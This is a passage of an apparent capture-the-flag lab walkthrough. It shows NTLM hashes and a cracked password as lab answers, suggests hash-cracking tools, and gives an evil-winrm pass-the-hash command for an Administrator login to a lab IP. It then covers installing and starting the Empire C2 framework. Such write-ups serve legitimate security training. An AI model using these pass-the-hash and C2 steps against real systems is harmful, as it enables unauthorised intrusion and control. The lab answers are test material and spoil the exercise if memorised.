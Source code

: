     37db630168e5f82aafa8461e05c6bbd1


What is the NTLM password hash for the user "Thomas"?

     02d90eda8f6b6b06c32d5f207831101f


**Find Passowords to Hashes**
Can use something like hashcat locally to break hashes or online resources that might already have hashes cracked https://crackstation.net/


![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649005231681_image.png)


What is Tomas’ password?

    i<3ruby

**Evil-WinRM Hash Connection**
Connect to target with administrator hash:

    evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.90.150

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649005366415_image.png)



# Command and Control


## Task 23  Command and Control Empire: Installation

Using Empire C2 Framework along with the GUI version Starkiller.

Install Empire:

    apt install powershell-empire starkiller

Start Empire Server

    powershell-empire server

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649005554845_image.png)

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649005586913_image.png)


Start Empire Client

    powershell-empire client

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649005687244_image.png)


******If hosting C2 on another server:**
With the server instance hosted locally this should connect automatically by default. If the Empire server was on a different machine then you would need to either change the connection information in the `/usr/share/powershell-empire/empire/client/config.yaml` file, or connect manually from the Empire CLI Client using `connect HOSTNAME --username=USERNAME --password=PASSWORD`.
